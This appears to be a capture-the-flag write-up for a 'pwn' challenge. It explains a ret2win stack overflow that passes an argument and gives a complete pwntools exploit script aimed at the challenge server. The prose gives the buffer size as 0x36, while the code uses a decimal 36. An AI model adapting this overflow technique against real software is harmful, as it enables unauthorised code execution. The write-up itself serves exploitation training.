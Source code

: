 # args

**Category**: pwn

**Points**: 300

deadbeef!

`nc 195.154.231.70 8767`

## Files

- [chall](./chall)

## Solution

simple ret2win exploit but with an arg. the buffer is 0x36 bytes long, so we need to fill it up, then add the address of the win function, followed up by some padding and the arg which can be found using ghidra.

![ghidra](https://i.imgur.com/TzBDLdq.png)

```python
from pwn import *

binary = context.binary = ELF("./chall", checksec=False)

if args.REMOTE:
    p = remote('195.154.231.70', 8767)
else:
    p = process("./chall")

offset = 36

payload = b"A" * 36 # offset found using gdb
payload += (p32(binary.sym.unreal))
payload += b"CCCC"
payload += (p32(0xdeadbeef))
p.sendline(payload)
resp = p.recvall().decode('utf-8')
log.success("flag: " + resp.replace("args??????\n", "")) # remove extra chars and print flag
```
